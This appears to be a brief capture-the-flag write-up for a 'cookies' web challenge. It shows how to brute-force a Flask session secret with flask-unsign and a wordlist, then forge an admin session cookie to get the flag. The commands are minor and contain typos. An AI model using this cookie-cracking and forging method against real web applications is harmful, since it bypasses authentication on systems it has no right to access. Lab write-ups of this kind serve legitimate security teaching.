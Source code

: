 >On analyzing server.py code we find out that the code will check for the session cookie "very auth" and if the session cookie key value is equal to the admin it will redirect us to flag.html page which will have our flag.
>We are also provided with webpage and as the name itself suggests "cookies" we know there is something related to the cookies of the webpage so we ::
Inspect > Application > Storage > Cookies
From there, we see a cookie named session having certain value.

- #### Then using the folowing Block of command on our terminal we will find our flag :
$ pip install flask-unsign[//wordlist]
$ flask-unsign --unsign --cookie <your session cookie value> --wordlist wordlist.tx
* after certain number of attempts we will find our key
- #### Then using this command will provide us with session cookie value:
$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret <secret key>

Using this value we can find our flag from the Webpage.


